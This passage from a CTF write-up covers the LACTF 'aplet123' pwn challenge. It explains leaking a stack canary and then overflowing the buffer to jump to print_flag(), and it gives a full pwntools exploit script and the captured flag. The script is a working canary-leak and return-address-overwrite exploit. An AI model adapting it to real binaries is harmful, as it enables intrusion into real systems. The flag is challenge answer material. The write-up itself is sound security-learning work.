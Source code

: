 We will modify our payload to add "i'm" at the end to take advantage of the s+4 behaviour

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/557d3836-2a5f-4b3a-b763-f5e378e7d97a)

Now that we have a canary leak, we can just use the buffer overflow to overwrite the saved return address to print_flag()

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./aplet123')

host = "chall.lac.tf"
port = 31123

gdb_script = '''

'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

leak_canary_offset = 69
offset = 72
win = 0x004011e6

p.sendlineafter(b"hello\n", "A"*leak_canary_offset + "i'm")
p.recvuntil(b"hi ")
leak = p.recv(7)
leak = b"\x00" + leak
canary = u64(leak)

payload = b"A" * offset
payload += p64(canary) * 2
payload += p64(win)

p.sendlineafter(b"aplet123\n", payload)
p.sendline("bye")

p.interactive()

# lactf{so_untrue_ei2p1wfwh9np2gg6} 

{% endhighlight %}

## Pwn/52 Card Monty

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/04046e49-dccc-4253-af8f-efa93b818930)

